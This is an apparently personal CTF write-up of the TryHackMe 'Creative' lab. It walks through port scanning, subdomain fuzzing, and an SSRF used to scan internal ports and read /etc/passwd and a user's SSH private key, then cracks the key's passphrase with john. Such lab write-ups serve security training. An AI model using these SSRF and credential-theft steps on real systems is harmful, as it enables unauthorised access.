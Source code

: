 ```yaml
---
title: "TryHackMe: Creative"
author: cilgin
date: 2025-07-11 13:01:01 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: false
math: false
mermaid: false
image:
  path: /assets/img/2025-07-11-TryHackMe-Creative/main.webp
---
```


Hi I'm making [TryHackMe Creative](https://tryhackme.com/room/creative) room.

---

```bash
export IP=10.10.86.65
```

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-07-11 13:04 +0300
Nmap scan report for 10.10.86.65
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 28:0b:28:e5:d3:14:25:ce:d6:46:90:27:cd:27:eb:e3 (RSA)
|   256 b3:d0:78:aa:47:a3:ce:4b:e0:a3:09:d8:21:31:3c:4d (ECDSA)
|_  256 ee:6a:8d:69:3a:f3:91:bb:d3:c9:fc:71:3d:9b:3f:69 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.32 seconds
```

Lets visit the website.

Firstly lets add creative.thm to `/etc/hosts`

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo1.webp){: width="972" height="589" }

Lets firstly fuzz the website using `gobuster`.

```bash
❯ gobuster dir -w common.txt -u http://creative.thm/ -x md,js,html,php,py,css,txt,bak -t 50
===============================================================
Gobuster v3.7
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://creative.thm/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.7
[+] Extensions:              php,py,css,txt,bak,md,js,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 178] [--> http://creative.thm/assets/]
/components.html      (Status: 200) [Size: 41148]
/index.html           (Status: 200) [Size: 37589]
Progress: 42651 / 42651 (100.00%)
===============================================================
Finished
===============================================================
```

Nothing crazy.

Lets try finding subdomains.

```bash
❯ ffuf -w top_subdomains.txt -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -fw 6 -t 50

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://creative.thm/
 :: Wordlist         : FUZZ: /home/cilgin/dev/wordlist/top_subdomains.txt
 :: Header           : Host: FUZZ.creative.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 6
________________________________________________

beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 78ms]
:: Progress: [114441/114441] :: Job [1/1] :: 688 req/sec :: Duration: [0:02:56] :: Errors: 0 ::
```

Lets add beta.creative.thm to the `/etc/hosts` and go tho the website.

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo2.webp){: width="972" height="589" }

Lets open a python webserver to test this.

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo3.webp){: width="972" height="589" }

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo4.webp){: width="972" height="589" }

So it directly gets the `/` endpoint. We can use this to make ssrf. Lets try getting all localhost services. Using this `ffuf` command.

```bash
❯ ffuf -w <(seq 1 65535) -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://beta.creative.thm/
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http://127.0.0.1:FUZZ/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: all
 :: Filter           : Response size: 13
________________________________________________

80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 289ms]
1337                    [Status: 200, Size: 1188, Words: 41, Lines: 40, Duration: 244ms]
```

We can see that localhost:1337 is open in that machine.

So to that manually.

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo5.webp){: width="972" height="589" }
![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo6.webp){: width="972" height="589" }

Its giving directory listing for / but if I click any of that directories I get 404. So we need to manually write the endpoint like /etc/passwd


```text
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin sshd:x:112:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin saad:x:1000:1000:saad:/home/saad:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash 
```

Which gave me output. 


Now try looking for any ssh keys.


If you go to `http://127.0.0.1:1337/home/saad/.ssh/id_rsa`

You can get ssh private key for saad.


```bash
❯ nvim saad.key
❯ chmod 400 saad.key
❯ ssh saad@$IP -i saad.key
Enter passphrase for key 'saad.key': 
```

Now we need to crack the ssh key password using `john`

```bash
python2 ssh2john.py saad.key > saad_ssh.hash
```

```bash
❯ john hashes/ssh.hash --wordlist=rockyou.txt 
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Which gave the password to log in.


```bash
saad@ip-10-10-86-65:~$ ls
snap  start_server.py  user.txt
saad@ip-10-10-86-65:~$ cat user.txt 
*********************************
```
